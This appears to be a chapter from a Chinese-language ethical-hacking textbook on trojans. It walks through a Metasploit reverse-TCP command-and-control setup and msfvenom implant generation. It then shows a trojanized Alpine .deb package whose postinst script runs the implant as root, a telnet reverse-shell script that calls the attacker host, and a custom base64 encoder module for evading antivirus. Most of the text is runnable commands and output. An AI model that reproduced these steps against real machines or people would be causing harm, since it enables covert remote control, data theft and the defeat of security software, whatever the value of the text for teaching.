## **10  

构建木马**

*事物并非总是看起来那样；第一眼的印象欺骗了许多人；少数人的智慧看穿了那些精心隐藏的东西。*

–Phaedrus


考虑以下场景：一名攻击者伪装成 IT 部门负责人，向一名员工发送电子邮件。邮件告诉受害者下载更新版的 Alpine 邮件客户端。但受害者并不知道，攻击者已经将一个植入物嵌入到程序中。当受害者安装客户端时，安装程序也会安装该植入物。

所有的伦理黑客都应该了解像这样的植入物机制。隐藏在合法文件中的植入物被称为*木马*。我将首先讨论由俄罗斯军事情报机构（GRU）开发的 Drovorub 恶意软件植入物，并使用 Metasploit 重现其整体设计。这个为 Linux 系统设计的植入物为现代恶意软件提供了一个很好的案例研究。

在本章中，您将学习如何将植入物隐藏在另一个文件中，并使用诸如`msfvenom`等工具混淆它以避免被检测到。您还将通过编写自定义的 Metasploit 模块来练习，创建一个编码器，帮助您的植入物逃避杀毒软件的检测。

在探索了 Linux 和 Windows 系统的植入物之后，我还将向您展示如何为 Android 设备生成恶意植入物，这些植入物可以监听手机的麦克风，使用手机的相机拍照，查找手机位置，读取并发送短信，并下载手机的通话记录。在本章的练习中，您将构建一个可以通过记录按键来窃取受害者密码，并通过访问其相机拍摄照片的植入物。

### 案例研究：使用 Metasploit 重建 Drovorub

2020 年，NSA 发布了一份分析 Drovorub 的报告。本节讨论了该植入物的架构，如图 10-1 所示，并描述了如何使用开源工具如 Meterpreter 构建类似的东西。



*图 10-1：NSA 报告中描述的 Drovorub 植入物架构*

Drovorub 由四个关键部分组成：攻击者的服务器、攻击者的代理、恶意软件客户端和恶意软件内核模块。一旦攻击者攻破了受害者的机器，他们会安装恶意软件客户端和恶意软件内核模块。内核模块通过覆盖操作系统的恶意软件检测功能，帮助植入物避免被检测到。从某种程度上来说，这就像是在监控摄像头前贴上一张房间的照片。恶意软件客户端与攻击者的服务器进行通信，服务器管理来自多台机器的连接，并在中央数据库中存储每个连接的信息，同时允许攻击者控制受害者的机器。

你可以使用开源工具构建类似 Drovorub 植入程序的东西。我们将在这里使用 *Metasploit 框架*，这是一个开源的软件库、黑客工具和漏洞代码的集合。伦理黑客社区经常为 Metasploit 做出贡献，因此它是你伦理黑客工具箱中的一款好工具。

#### *构建攻击者的服务器*

让我们首先设置攻击者的服务器，也就是命令和控制服务器，它将接受来自安装在受害者设备上的植入的连接。Metasploit 框架允许你将这样的服务器托管在独立的机器上，但我们将直接在 Kali Linux 虚拟机上托管它。运行以下命令获取机器的 IP 地址：

```
kali@kali:~$ ifconfig eth0
```

记下这个地址，你稍后会用到它。

接下来，你需要启动 PostgreSQL 服务器，该服务器在 Kali Linux 中预装。PostgreSQL 是用来存储植入连接元数据的数据库。

```
kali@kali:~$ sudo service postgresql start
```

现在服务器已经启动，让我们启动 `msfconsole`，它允许你访问 Metasploit 框架的功能。Metasploit 应该已经预装在 Kali Linux 中，所以你不需要自己安装。通过打开终端并运行以下命令来启动 `msfconsole`：

```
kali@kali:~$ sudo msfconsole -q
```

控制台启动需要一些时间。启动后，运行以下命令开始服务器设置过程：

```
msf> use exploit/multi/handler
```

`use` 命令允许你选择 Metasploit 框架中的模块。*模块* 是执行特定任务的软件。我们将使用 *exploit/multi* 文件夹中的处理模块来创建黑客的服务器。这些模块类似于我们在第四章中开发的 TCP 服务器。它们将监听来自客户端的连接。

选择模块后，使用 `set` 命令为它们分配特定上下文的值。首先设置服务器应该监听的植入类型。Metasploit 有多个适用于 Windows、Linux、iOS 和 Android 系统的植入类型。我们将攻击一个 Linux 系统，因此我们会监听 Linux x86 植入。运行以下命令来设置类型：

```
msf exploit (multi/hander) >set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

`PAYLOAD` 标志指定了要监听的植入类型。有趣的是，*payload* 这个词源于军事术语，通常用来指代炸弹的内容。

接下来，通过传递 Kali Linux 机器的 IP 地址来设置服务器的 IP 地址：

```
msf exploit (multi/hander) > set LHOST <Kali IP address>
```

`LHOST` 代表 *监听主机*。现在设置监听端口 (`LPORT`)：

```
msf exploit (multi/hander) > set LPORT 443
```

我们选择了端口 443，因为它与 HTTPS 协议相关联，并且能使网络流量看起来不那么可疑。有些植入程序甚至通过 DNS 协议进行通信，以避免引起怀疑。运行以下命令启动你配置的服务器：

```
msf exploit (multi/hander) > exploit
```

`exploit` 命令运行模块。如果你已经成功启动了服务器，应该能看到以下输出：

```
[*] Started reverse TCP handler on <Kali IP address>:443
```

保持这个终端打开，以便服务器继续运行。

#### *构建受害者客户端*

现在，让我们创建要安装到受害者机器上的植入物。在你的 Kali Linux 桌面上创建一个名为*Malware*的新文件夹：

```
kali@kali:~$ mkdir ~/Desktop/Malware
```

打开一个新的终端，运行以下命令以导航到该文件夹：

```
kali@kali:~$ cd ~/Desktop/Malware
```

我们将使用`msfvenom`工具来创建恶意植入物。运行以下命令来创建：

```
kali@kali:~/Desktop/Malware$ sudo msfvenom -a x86 --platform linux -p linux/

			 x86/meterpreter/reverse_tcp LHOST=<Kali IP address> LPORT=443 --

			 smallest -i 4 -f elf -o malicious
```

`-a`标志代表目标架构，这里是`x86`。`--platform`标志指定目标平台，`-p`标志指定有效载荷类型，这里是像我们在第四章中实现的反向 TCP shell。`--smallest`标志生成最小可能的有效载荷。`-i`标志有助于我们避免防病毒检测，我稍后会详细讨论。`-f`标志表示我们需要输出的文件类型。我们选择了`elf`，因为它是 Linux 可执行文件使用的格式。（*exe*格式是 Windows 可执行文件使用的格式。）`-o`标志指定输出文件的名称。

#### *上传植入物*

我们将以与在第四章中交付反向 shell 相同的方式交付植入物：通过将其下载到受害者机器上。在 Malware 文件夹中启动一个 Python 服务器，运行以下命令。

```
kali@kali:~/Desktop/Malware/$ sudo python3 -m http.server 80
```

在之前的章节中，我们讨论了几种获得系统访问权限的方法。为简化起见，我们不再使用之前的后门，而是假设黑客已经窃取了系统的凭据。启动 Metasploitable 服务器并使用用户名**msfadmin**和密码**msfadmin**登录。然后，使用`wget`工具下载植入物：

```
msfadmin@metasploitable:~$ wget <Kali IP address>:80/malicious
```

通过运行以下命令使植入物可执行（`+x`）：

```
msfadmin@metasploitable:~$ sudo chmod +x malicious
```

通过执行以下命令运行恶意程序：

```
msfadmin@metasploitable:~$ sudo./malicious &
```

`&`选项将在后台运行该进程。

打开运行黑客服务器的 Kali 终端。如果植入物成功连接，你应该看到如下输出：

```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.107:443

[*] Sending stage (980808 bytes) to 192.168.1.101

[*] Meterpreter session 1 opened (192.168.1.107:443 -> 192.168.1.101:36592)
at 2022-11-10 15:02:15 -0500

meterpreter >
```

恭喜你！你刚刚安装了第一个开源恶意软件植入物。是的，它真的这么简单。现在，让我们使用攻击者代理与植入物进行交互。

#### *使用攻击者代理*

该代理支持多种命令，允许你与植入物进行交互。例如，你可以使用`ls`命令列出机器上的所有文件。这里，Meterpreter 界面代表黑客代理：

```
meterpreter > ls
Listing: /home/msfadmin

=======================

Mode              Size  Type  Last modified              Name

----              ----  ----  -------------              ----

20666/rw-rw-rw-   0     cha   2021-11-06 09:39:55 -0500  .bash_history

40755/rwxr-xr-x   4096  dir   2010-04-28 16:22:12 -0400  .distcc

40700/rwx------   4096  dir   2021-11-08 06:25:02 -0500  .gconf

                        ...
```

你可以使用`download`和`edit`命令下载或编辑这些文件，且可以通过运行`help`命令列出所有可用命令。

```
meterpreter > help

Core Commands

=============

    Command                   Description

    -------                   -----------

    ?                         Help menu

    background                Backgrounds the current session

    bg                        Alias for background

    bgkill                    Kills a background meterpreter script

                        ...
```

你可以通过运行`shell`命令访问受害者的 shell：

```
meterpreter >shell
Process 13359 created.
Channel 1 created.
```

通过运行命令`whoami`尝试与 shell 进行交互。完成后，输入`**exit**`返回 Meterpreter 界面。

#### *为什么我们需要受害者的内核模块*

如果 Metasploitable 机器上的系统管理员使用以下命令查看运行中的进程，恶意程序将显示如下：

```
msfadmin@metasploitable:~$ ps au

USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND

-------------------------------- snip -----------------------------------------
root      3771  0.0  0.0   1716   488 tty6     Ss+  Nov06   0:00 /sbin/getty 38400 tty6
root      4512  0.0  0.1   2852  1544 pts/0    Ss+  Nov06   0:00 -bash
root      4617  0.0  0.1   2568  1204 tty1     Ss   Nov06   0:00 /bin/login --
msfadmin 13073  0.0  0.1   4632  2040 tty1     S+   Nov08   0:00 -bash
msfadmin 13326  0.0  0.0   1128  1028 tty1     S    02:08   0:00./malicious ➊ 
msfadmin 13414  0.0  0.1   4580  1924 pts/1    Ss   02:58   0:00 -bash
msfadmin 13434  0.0  0.0   2644  1008 pts/1    R+   03:01   0:00 ps a
```

`ps`命令列出了所有用户(`u`)的所有进程(`a`)。此命令相当于 Windows 中的任务管理器。

如你所见，恶意程序显示在 ➊ 处。黑客如何避免被检测？他们通过使用*rootkit*，这是一种为植入物提供操作系统内核功能访问的软件，内核是最高级别的访问权限。植入物可以利用此访问权限使自己几乎无法被检测到。例如，Meterpreter 将尝试通过伪装成另一个进程来躲避检测。在 Windows 上，你可以使用 Meterpreter 的`migrate`命令将恶意进程隐藏在另一个进程中。我们将在第十一章中详细讨论隐藏过程。

### 隐藏植入物于合法文件中

攻击者经常使用社交工程技术将植入物植入受害者的机器。例如，他们可能会向受害者发送钓鱼邮件，鼓励他们从一个假网站下载公司的电子邮件客户端 Alpine 的更新版本，木马程序会小心地将恶意植入物隐藏在另一个程序中。*木马*这一术语源自特洛伊战争，据传，希腊人通过藏在一个巨大的马形雕像“特洛伊木马”中，成功攻入了特洛伊城。我们将在这里执行类似的攻击，通过发送钓鱼邮件，鼓励受害者从假网站下载公司的电子邮件客户端 Alpine 的更新版本。你将在虚拟环境中的 Ubuntu 桌面机器上执行此攻击。现在开始创建木马。

#### *创建木马*

在你的*Malicious*文件夹内创建一个名为*trojans*的文件夹并进入该文件夹。这是你将创建的木马存放的地方。

```
kali@kali:~$ mkdir ~/Desktop/Malware/trojans/
kali@kali:~$ cd ~/Desktop/Malware/trojans/
```

我们将通过修改 Alpine 安装程序中的*.deb*文件来创建木马，使其安装植入物和 Alpine。运行以下命令下载合法的 Alpine 安装程序：

```
kali@kali:~/Desktop/Malware/trojans/$ apt-get download alpine
```

下载客户端后，通过运行以下命令将文件内容提取到*mailTrojan*文件夹：

```
kali@kali:~/Desktop/Malware/trojans/$ engrampa <Alpine DEB file> -e mailTrojan
```

打开*mailTrojan*文件夹。图 10-2 显示了它的内容。



*图 10-2：* trojans/mailTrojan *文件夹中的文件包含提取的.deb 文件。*

##### 编辑你的.deb 文件

你需要编辑 Alpine 安装程序的*.deb*安装文件，使其包含你的恶意植入物。现在让我们了解安装程序的结构。所有安装文件必须包含一个*DEBIAN*文件夹，里面包含描述程序及其安装方法的文件。安装文件还可以包含其他文件夹，如*var*文件夹用于文件，或*usr*文件夹用于二进制文件。这些文件夹将在安装过程中相对于*/home*目录的位置进行复制。例如，安装程序会将*usr*文件夹复制到*/home/usr*。然后安装程序会读取*DEBIAN*文件夹的内容。

点击*DEBIAN*文件夹。你应该能看到图 10-3 中所示的文件。



*图 10-3：* DEBIAN *文件夹的内容*

如你所见，这个文件夹包含三个文件（*control*、*md5sums*和*postint*）。让我们查看其中的每个文件，并根据需要进行修改。以下是 Alpine 控制文件的一部分：

```
➊ Package: alpine

   Version: 2.24+dfsg1-1
➋ Architecture: amd64
➌ Maintainer: Asheesh Laroia <asheesh@asheesh.org>

   Installed-Size: 8774
➍ Depends: mlock, libc6 (>= 2.15), libcrypt1 (>= 1:4.1.0), libgssapi-krb5-2 (>=

			 1.17), libkrb5-3 (>= 1.6.dfsg.2), libldap-2.4-2 (>= 2.4.7), libssl1.1 (>=

			 1.1.1), libtinfo6 (>= 6)

   Recommends: alpine-doc, sensible-utils

   Suggests: aspell, default-mta | mail-transport-agent

   Conflicts: pine

   Replaces: pine

   Section: mail

   Priority: optional

   Homepage: http://alpine.x10host.com/alpine/

   Description: Text-based email client, friendly for novices but powerful

   Alpine is an upgrade of the well-known PINE email client.  Its name derives

   ...
```

控制文件是所有 Debian 包所必需的，必须包含程序的相关信息。例如，这个文件包含包的名称➊、它支持的硬件架构➋、维护者的姓名➌以及它的依赖项➍。

*md5sums*文件包含安装中包含的文件的 MD5 哈希值。安装过程中不会检查这些哈希值，而是用来验证安装后文件的完整性。如果你愿意，可以添加你恶意植入程序的 MD5 哈希值。虽然不是必需的，但这是一个额外的隐蔽步骤。以下是*md5sum*文件的一部分：

```
55828c20af66f93128c3aefbb6e2f3ae  usr/bin/alpine
b7cf485306ea34f20fa9bc6569c1f749  usr/bin/rpdump

1ab54d077bc2af9fefb259e9bad978ed  usr/bin/rpload
```

*postint*文件在安装完成后运行。Debian 包通常包含*preint*和*postint*文件，这些文件是原始包开发者放置的，用来指示 Debian 包管理器在安装前后需要执行的操作。我们将把激活植入程序的代码添加到*postint*文件中。*postint*文件是一个理想的选择，因为它会在应用程序安装后运行，这样植入过程就不会干扰安装。如果该文件不存在，可以通过文件管理器创建它，或者运行以下命令：

```
kali@kali:~$ touch ~/Desktop/Malware/trojans/mailTrojan/postint
```

打开*postint*文件并复制以下代码段。

```
  #!/bin/sh

  # postint script for Alpine mail Trojan

➊ sudo chmod 2755 /usr/bin/malicious &
➋ sudo./usr/bin/malicious &

  exit 0
```

这将为恶意文件添加执行权限➊，并用 root 权限执行它➋。

接下来，运行以下命令使*postint*文件可执行：

```
kali@kali:~$ chmod +x ~/Desktop/Malware/trojans/mailTrojan/postint
```

##### 添加植入程序

现在我们将创建植入程序，并将其添加到*/usr/bin*文件夹中，以确保安装程序在安装过程中将其复制到受害者机器上的*/home/usr/bin*文件夹。首先，导航到*mailTrojan*文件夹中的*usr/bin*文件夹：

```
kali@kali:~/Desktop/Malware/trojans/mailTrojan$ cd usr/bin
```

接下来，使用`msfvenom`命令创建恶意文件，如下所示：

```
kali@kali:~/Desktop/Malware/trojans/mailTrojan/usr/bin$ msfvenom -a x86 --

			 platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=<Kali IP

			 address> LPORT=8443 -b "\x00" -f elf -o malicious
```

我们将使用`msfvenom`，并使用与之前相同的选项生成恶意植入程序。不过，除了直接将植入程序复制到受害者的机器上，我们还将它隐藏在 Alpine 的安装文件夹中。将生成的*malicous*二进制文件复制到*usr*文件夹中。现在，你的*usr/bin/*文件夹内容应该类似于图 10-4。



*图 10-4：* usr/bin/*文件夹的内容*

现在你可以准备将文件重新打包成最终的*.deb*安装文件。运行以下命令开始重新打包过程：

```
kali@kali:~/Desktop/Malware/trojans/mailTrojan$ dpkg-deb --build ~/Desktop/

			 Malware/trojans/mailTrojan
```

完成了！你已经创建了第一个特洛伊木马。你可以通过导航到*/Desktop/Malware/trojans*文件夹并运行`**ls**`命令查看它：

```
kali@kali:~/Desktop/Malware/trojans$ ls
alpine_2.24+dfsg1-1_amd64.deb mailTrojan mailTrojan.deb
```

以*alpine*开头的文件是未修改的 Alpine 安装程序。*mailTrojan*文件夹是我们刚刚添加恶意文件的文件夹，*mailTrojan.deb*是我们重新包装的包含植入物的木马。一个建议的改进是：攻击者可能会选择一个更隐蔽的名字。

像这样的攻击确实有效，而且通常规模很大。以 Solarwinds 为例，Solarwinds 生产的软件是政府和大型企业用来管理和保护其网络的。2020 年，黑客成功入侵 Solarwinds 的计算机，并修改了其中一个软件库，加入了恶意植入物。当 Solarwinds 安装其软件更新时，恶意植入库也被一同安装。此次攻击影响了多个使用 Solarwinds 软件的公司和政府机构。这个植入物经过精心设计，甚至包含了一种避免被发现的策略。例如，它在激活之前等待了两周，并且如果检测到如 Wireshark 等安全相关软件，它就不会启动。

#### *托管木马*

攻击者可以将我们刚刚创建的木马托管在 GitHub 或伪造的网站上。在这一部分，我们将在我们的 Kali Linux 虚拟机上托管木马，并通过本地 Web 服务器提供服务。确保你处于包含木马的文件夹中，并运行以下命令：

```
kali@kali:~/Desktop/Malware/trojans$ sudo python3 -m http.server 80
```

接下来，你需要启动攻击者服务器，监听来自植入物的连接。我们可以不再像之前那样一步一步执行命令，而是在新终端中将所有命令放在一行中执行：

```
kali@kali:~$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/

			 x86/meterpreter/reverse_tcp; set LHOST <Kali IP address>; set LPORT

			 8443; run; exit -y"
```

现在我们有两个服务器在运行：一个提供植入物，另一个接收来自所有已安装植入物的连接。接下来我们必须做的就是通过将植入物下载到我们的 Ubuntu 虚拟机上来测试木马。

#### *下载感染文件*

启动 Ubuntu 虚拟机，然后通过复制并粘贴以下链接到浏览器中来模拟用户点击电子邮件链接，确保指定你的 Kali Linux 机器的 IP 地址：*http://<Kali IP 地址>/mailTrojan.deb*。

在出现下载窗口时，选择**保存文件**选项，如图 10-5 所示。



*图 10-5：下载* mailTrojan.deb *文件*

这将把*.deb*安装文件保存到你的*下载*文件夹。打开文件资源管理器中的*下载*文件夹，然后通过右键点击文件并选择**打开方式** ▶ **安装软件**来安装文件。

你可能会想，真实用户真的会做这些操作吗？但想想你通过运行`sudo apt-get`安装的所有软件包。你能确保这些*.deb*文件中没有植入物吗？一旦你启动了包管理器，应该会看到图 10-6 中的界面。选择**安装**。



*图 10-6：Alpine 电子邮件客户端的安装界面*

输入你的 Ubuntu 密码。安装过程完成后，运行以下命令启动 Alpine 终端邮件客户端：

```
victim@ubuntu:~/Download/$ alpine
```

如果 Alpine 安装正确，你将看到一个终端界面。现在让我们检查一下我们的植入程序是否也已安装。

#### *控制植入程序*

重新打开之前启动的攻击者服务器的终端。如果植入程序已正确安装，你应该会看到以下内容，表示植入程序已经连接到服务器：

```
[*] Meterpreter session 1 opened (192.168.1.107:8443 -> 192.168.1.109:43476)
meterpreter >
```

太好了！运行以下命令查看你可以使用植入程序做的所有事情：

```
meterpreter> help

          ...
Stdapi: System Commands

=======================

    Command       Description

    -------       -----------

    execute       Execute a command

    getenv        Get one or more environment variable values

    getpid        Get the current process identifier

    getuid        Get the user that the server is running as

    kill          Terminate a process

    localtime     Displays the target system local date and time

    pgrep         Filter processes by name

    pkill         Terminate processes by name

    ps            List running processes

    shell         Drop into a system command shell

    suspend       Suspends or resumes a list of processes

    sysinfo       Gets information about the remote system, such as OS

Stdapi: Webcam Commands

=======================

    Command        Description

    -------        -----------

    webcam_chat    Start a video chat

    webcam_list    List webcams

    webcam_snap    Take a snapshot from the specified webcam

    webcam_stream  Play a video stream from the specified webcam

                      ...
```

那么接下来你能做什么呢？如何安装一个后门，方便你随时重新进入呢？如果有人重启机器或删除恶意文件，Meterpreter 植入程序将会断开连接。你可以尝试重新攻破机器以保持访问，但如果受害者更改了密码或修补了你最初利用的漏洞，所有的努力都将付诸东流。这就是为什么黑客安装后门；它们允许攻击者通过替代路径重新进入机器。当我在第十一章中讨论 rootkit 时，我会展示如何设计自己的后门。但如果你现在想安装一个，考虑使用 Kyle Barnthouse 设计的*dbd 后门*，可以在 *[`github.com/gitdurandal/dbd/`](https://github.com/gitdurandal/dbd/)* 上找到。

### 通过使用编码器避开杀毒软件

杀毒软件不会检测到这些恶意程序吗？并不总是。你可以通过将其上传到 Virus Total 来查看哪些杀毒软件会检测到你的植入程序，网址是 *[`www.virustotal.com/gui/`](https://www.virustotal.com/gui/)*。

杀毒系统使用*特征检测*来尝试查找恶意软件。恶意软件的特征是其独特的字节序列。你可以通过运行 `xxd` 命令查看我们恶意植入程序的字节序列：

```
kali@kali:~/Desktop/Malware$ xxd malicious

00000000: 7f45 4c46 0101 0100 0000 0000 0000 0000  .ELF............

00000010: 0200 0300 0100 0000 5480 0408 3400 0000  ........T...4...

00000020: 0000 0000 0000 0000 3400 2000 0100 0000  ........4\. .....

00000030: 0000 0000 0100 0000 0000 0000 0080 0408  ................

00000040: 0080 0408 2e01 0000 0802 0000 0700 0000  ................

00000050: 0010 0000 6a31 59d9 eed9 7424 f45b 8173  ....j1Y...t$.[.s

00000060: 1388 81fd 1583 ebfc e2f4 e2aa a4cc 6658  ..............fX

00000070: 8931 7cda 7c66 9be3 0504 2702 16e9 6a75  .1|.|f....'...ju

00000080: f5c8 c0f7 7134 ed0a 6bb6 185d 8ca5 699c  ....q4..k..]..i.

00000090: eb6e 72d2 7d19 bbc1 7440 3f07 59bd 2585  .nr.}...t@?.Y.%.

000000a0: acea c2fe 17fb e35d c665 332a 67a9 eddd  .......].e3*g...

000000b0: d654 50bf 4ef0 d9ee bdc5 3a0d c023 24b7  .TP.N.....:..#$.

000000c0: 6563 1bed 66cb b1ec 0c18 3a0d 67c5 ebbc  ec..f.....:.g...

000000d0: 5cf4 3a0d 4e6e 3369 cdda aaa2 799e db4e  \.:.Nn3i....y..N

000000e0: 0da3 b3b4 67a3 d9e9 8440 8225 c023 362c  ....g....@.%.#6,

000000f0: 741e 58cb bfa4 0aec 1da3 b365 ee62 58e0  t.X........e.bX.

00000100: cc40 bf5c 706e 3369 cddb a3b7 8442 2a5e  .@.\pn3i.....B*^

00000110: 6713 b021 8d26 7394 0f5c 5254 0ca3 b3ec  g..!.&s..\RT....

00000120: b6a2 b3ec 0d6e 33ec 2d99 992e fd15       .....n3.-.....
```

杀毒软件通过扫描内存中的这些特征来检测恶意软件，因此你可以通过确保你的恶意软件具有一个尚未被杀毒系统识别的特征来避免被检测。

一种方法是通过运行恶意软件并使用*编码器*。编码器通过修改程序的字节而不改变其功能来改变程序的特征。你可能会想：改变字节难道不会改变指令和程序的功能吗？其实，两个程序即使使用不同的指令，只要它们实现相同的功能，也能有相同的效果。例如，以下两个程序都将数字乘以 2：

```
a = a + a
a = a * 2
```

让我们通过应用一个简单的编码器来具体化这个想法。Msfvenom 支持多个编码器。你可以通过启动 `msfconsole` 并运行 `show encoders` 命令查看它们的列表。

```
kali@kali:~$ msfconsole -q
msf5 > show encoders

Encoders

========

   #   Name                  Rank    Check  Description

   -   ----                  ----    -----  -----------

                            ...

   5   cmd/powershell_base64 manual  No     Powershell Base64 Command Encoder

   40  x86/shikata_ga_nai    manual  No     Polymorphic XOR Additive Feedback

                            ...
```

让我们仔细看看输出中显示的两个编码器，从最简单的开始。

#### *Base64 编码器*

`powershell_base64` 编码器使用 base64 编码方案，它将二进制序列转换为文本，类似于 第五章 中提到的 ASCII 编码方案。然而，与将 8 位序列转换为字符的 ASCII 不同，base64 编码器将 6 位序列转换为 64 个可能的可打印字符之一。考虑 表 10-1 中的示例，它将 Linux 的 `ls` 命令从 ASCII 转换为 base64。

**表 10-1：** ASCII 转换为 base64

| ASCII | l | s |
| --- | --- | --- |
| 二进制 | 0 | 1 | 1 | 0 | 1 | 1 | 0 | 0 | 0 | 1 | 1 | 1 | 0 | 0 | 1 | 1 |
| 十进制（0-64） | 27 | 7 | 12 |
| Base64 | b | H | M |

最后一部分只有四个比特，因此剩下的两个比特假定为 0，并在末尾添加填充字符（`=`）。以下是 base64 编码后的结果：`bHM=`.

我们可以执行这个 base64 编码后的值吗？是的，如果我们解码它并在运行程序之前将其传递给 shell：

```
kali@kali:~$ base64 -d <<< bHM= | sh
```

该命令将 base64 编码后的字符串传递给 base64 解码器（`-d`），解码器会将字符串转换回 ASCII 编码，然后通过管道（|）传递给 shell（`sh`）执行。图 10-7 显示了该编码和解码流程的概述。



*图 10-7：编码和解码流程*

一个包含 `ls` 命令的 Bash 脚本将与一个包含 `base64 -d <<< bHM= | sh` 命令的 base64 编码值的文件具有不同的签名，即使它们在功能上是等效的。这是因为两个文件都是使用 ASCII 编码存储的。由于签名不同，防病毒程序可能无法检测到包含 base64 值的恶意文件，如 图 10-8 中所描述。



*图 10-8：两个功能上等效的文件的二进制签名可能不同。*

然而，这种技术存在一个弱点。一旦签名检测算法捕获到一个带有新签名的编码植入物，它将能够检测到所有未来的编码植入物实例，因为 base64 编码从不改变。在本章的 Shikata Ga Nai 编码器部分，我们将探讨如何创建一个多态编码器，每次运行时都生成一个新的签名。

现在，让我们通过编写一个植入物来完成对 base64 编码器的讨论，作为练习，我们将创建一个 Metasploit 模块来编码它。在 *Malware* 文件夹中创建一个新文件，命名为 *implant.sh*，并复制以下代码片段。该脚本将使用 telnet 建立两个连接。它将从第一个连接的 80 端口接收命令，并通过第二个连接的 443 端口上传结果。

```
#!/bin/sh
echo ("Establishing Reverse Shell")
telnet <Kali IP address> 80 | sh | telnet <KALI-IP> 443
```

使用 netcat（`nc`）工具在不同的终端中创建两个 TCP 服务器：

```
kali@kali:~$ nc -lv 80
kali@kali:~$ nc -lv 443
```

#### *编写一个 Metasploit 模块*

让我们编写一个 Metasploit 模块，用于对植入物进行 base64 编码。Metasploit 模块是用 Ruby 编程语言编写的。别担心，Ruby 看起来很像 Python，所以你很容易上手。而且，Metasploit 框架是开源的，你可以通过访问 *[`github.com/rapid7/metasploit-framework/blob/master/modules/encoders/cmd/powershell_base64.rb`](https://github.com/rapid7/metasploit-framework/blob/master/modules/encoders/cmd/powershell_base64.rb)* 来查看 *cmd/powershell_base64* 编码器。这个编码器用于对 Windows 机器的 PowerShell 脚本进行编码。

在我们开始编写自己的版本以对 Linux 机器的 Bash 脚本进行编码之前，花点时间查看 *powershell_base64* 编码器。在你的 *Malware* 文件夹中创建一个名为 *Encoders* 的新文件夹，然后在 *Encoders* 文件夹中创建一个名为 *bash_base64.rb* 的新文件。我们将在这个文件中实现我们的 base64 编码器，因此请复制以下内容：

```
class MetasploitModule < Msf::Encoder

 ➊ Rank = NormalRanking

   def initialize

    ➋ super(

        'Name'             => 'Bash Base64 Encoder',

        'Description'      => %q{

          Base64 encodes bash scripts.

        },

        'Author'           => 'An Ethical Hacker',

       )

    end

  ➌ def encode_block(state, buf)

         unicode = Rex::Text.to_unicode(buf)

         base64 = Rex::Text.encode_base64(unicode)

         cmd = "base64 -d <<< #{base64} | sh"

         return cmd

    end
```

我们从编码器超类继承（`::`），然后指定模块的排名或质量 ➊。模块的质量从手动到优秀不等，具体取决于可靠性和所需的人为干预量。我们使用 `super` ➋ 关键字来调用超类的构造函数，并提供有关我们模块的信息。在模块初始化之后，Metasploit 框架会将输入分成块，并对每个块调用 `encode_block()` 函数 ➌。我们在进行 base64 编码之前，将值转换为 ASCII Unicode。

要测试你的新编码器，将它添加到 Metasploit 框架中，方法是将其复制到 *encoders* 文件夹中。你可以通过打开文件资源管理器并导航到 */usr/share/metasploit-framework/modules/encoders* 来找到该文件夹。在这里创建一个名为 *bash* 的新文件夹，并将你的 *bash_base64.rb* 编码器文件保存在其中。

打开一个新的终端，并在 `msfconsole` 中运行 `show encoder` 命令，以确保你的模块已正确添加：

```
      bash/bash_base64    manual  No     Bash Base64 Encoder
```

